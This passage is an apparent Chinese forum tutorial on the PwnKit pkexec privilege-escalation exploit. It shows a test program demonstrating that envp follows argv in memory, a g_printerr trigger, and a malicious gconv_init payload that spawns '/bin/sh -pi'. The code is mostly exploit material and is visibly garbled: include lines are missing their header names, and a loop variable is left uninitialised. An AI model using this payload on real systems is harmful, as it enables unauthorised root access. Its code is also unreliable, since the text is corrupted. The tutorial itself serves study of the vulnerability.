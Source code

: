 使用 execve 调用 test 程序，并分别给 argv 与 envp 传递了 3 个值。

 

test.c

```
#include int main(int argc, char** argv)
{
    printf("argc: %d\n", argc);
    for(int i; i<8; i++) {
        if(argv[i]!=NULL) {
            printf("argv[%d]: %s\n", i, argv[i]);
        } else {
            printf("argv[%d]: NULL\n", i);
        }
    }
 
    return 0;
} 
```

argc 为 3，加上截止符 0，argv 的大小为 4，这里直接打印了 8 个值，显然是越界了。argv 后面的内容是什么呢？  
![](https://bbs.pediy.com/upload/attach/202202/598931_5FVXKYUHCUU7HU2.png)  
通过实验，表明 argv 与 envp 在内存布局上是连续的，envp 紧跟 argv 之后。

利用 g_printerr 执行命令
------------------

main.c

```
int main()
{
    g_printerr("Hello world.\n");
    return 0;
}

```

pwnkit.c

```
#include #include #include void gconv(void) {
}
 
void gconv_init(void *step)
{
        char * const args[] = { "/bin/sh", "-pi", NULL };
        char * const environ[] = { "PATH=/bin:/usr/bin", NULL };
        execve(args[0], args, environ);
        exit(0);
} 
```

Makefile
